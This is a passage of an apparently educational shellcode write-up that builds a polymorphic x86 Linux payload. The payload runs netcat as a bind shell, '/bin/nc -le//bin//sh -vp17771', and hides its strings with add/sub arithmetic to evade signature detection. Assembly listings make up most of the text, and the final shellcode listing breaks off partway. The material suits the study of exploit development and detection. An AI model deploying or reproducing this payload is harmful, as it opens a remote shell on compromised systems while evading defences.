 Just execute the execve syscall:

```asm
    push edx
    push esi
    push edi
    push ebx
    mov ecx, esp
    mov al,11
    int 0x80
```


##### Polymorphic Shellcode

Creating a polymorphic shellcode, I have used different methods. To the "-vp17771" I have used the mov instruction on the stack:

```asm
    mov dword [esp - 4], 0x31373737
    mov dword [esp - 8], 0x3170762d 
    sub esp, 8
    mov esi, esp
```

To do the "-le//bin//sh" I have used the push instruction but with a polymorphic calculation of the data, doing add and sub instructions:

```asm
    push eax 
    mov eax, 0x68732f2f
    push eax
    add eax, 0x5f63301
    sub eax, 1
    push eax
    sub eax, 0x3f03f602
    push eax
```

To do the "/bin/nc" I continued doing the add instruction to create the correct string (/bin/sh):

```asm
    push edx
    add eax, 0x3408c302
    push eax
    add eax, 0xafb3301
    sub eax, 1
    push eax
    mov ebx, esp
    mov eax, edx

```

So, the final shellcode is:

```asm
global _start
section .text
 _start:
    xor eax, eax
    mov edx, eax
    push eax
    ; push 0x31373737     ;-vp17771
    ; push 0x3170762d
    mov dword [esp - 4], 0x31373737
    mov dword [esp - 8], 0x3170762d 
    sub esp, 8
    mov esi, esp

    push eax 
```